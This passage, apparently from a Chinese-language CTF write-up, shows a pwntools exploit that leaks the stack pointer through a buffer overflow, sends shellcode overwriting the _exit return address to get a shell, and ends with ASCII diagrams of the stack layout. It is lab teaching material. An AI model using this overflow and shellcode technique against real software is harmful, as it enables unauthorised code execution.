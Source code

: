 ```python

    # 泄漏 esp
    payload = 'a' * NORMAL_INPUT_LEN + p32(0x8048087)
    proc.send(payload)
    proc.recvuntil(':')

    esp_addr = u32(proc.recv(4))
    print('ESP addr is: ', hex(esp_addr))

    # 发送 shellcode，get shell    
    context.arch = 'i386'
    shellcode = asm(SHELLCODE)    

    payload = 'a' * NORMAL_INPUT_LEN # 正常的最大输入 20 个字符
    payload += p32(esp_addr + NORMAL_INPUT_LEN) # 覆盖 _exit
    payload += shellcode
    proc.send(payload)

    proc.interactive()
```

栈变化如下：
开始时：
```
             H +----------------+
               |   Pushed ESP   |
               +----------------+
               |     _exit      |
               +----------------+    <---
               |      CTF:      |      |
               +----------------+      |
               |      the       |      |
               +----------------+      |
               |      art       |    0x14 bytes              
               +----------------+      |  
               |      s st      |      |
               +----------------+      |
               |      Let'      |      |
ESP/ECX ---> L +----------------+    <---
```
泄漏 ESP 时：

```

             H +----------------+
               |   Pushed ESP   |
               +----------------+
               |   0x8048087    |
               +----------------+    <---
               |      aaaa      |      |
               +----------------+      |
               |      aaaa      |      |
               +----------------+      |
               |      aaaa      |    0x14 bytes
               +----------------+      |  
               |      aaaa      |      |
               +----------------+      |
               |      aaaa      |      |
ESP --->     L +----------------+    <---
```
